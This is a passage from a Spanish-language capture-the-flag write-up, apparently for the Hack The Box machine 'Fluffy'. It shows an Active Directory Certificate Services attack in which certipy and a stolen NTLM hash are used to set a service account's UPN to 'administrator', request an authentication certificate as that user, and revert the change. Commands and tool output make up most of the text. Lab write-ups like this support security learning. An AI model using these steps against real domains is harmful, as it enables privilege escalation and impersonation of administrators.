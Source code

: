 ~~~ powershell
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc /v StrongCertificateBindingEnforcement

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc
    StrongCertificateBindingEnforcement    REG_DWORD    0x0
~~~

### Exploiting

Comenzaremos el ataque cambiando el UPN (`User Principal Name`) de la cuenta `ca_svc`, para que coincida con el UPN del usuario `Administrator` 

 ~~~ bash
certipy account update -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -user ca_svc -upn administrator -dc-ip 10.10.11.69 

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
~~~

Procederemos a solicitar un certificado que permita autenticación, como la plantilla `User`

~~~ bash
certipy req -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -ca fluffy-DC01-CA -template User  -dc-ip 10.10.11.69
     
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 42
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
~~~

Revertiremos el cambio de UPN en la cuenta `ca_svc` para evitar errores a la hora de realizar la autenticación (en `certipy` podríamos ver el siguiente: `[-] Name mismatch between certificate and user 'administrator'`)

~~~ bash
certipy account update -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -user ca_svc -upn ca_svc@fluffy.htb -dc-ip 10.10.11.69

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
~~~
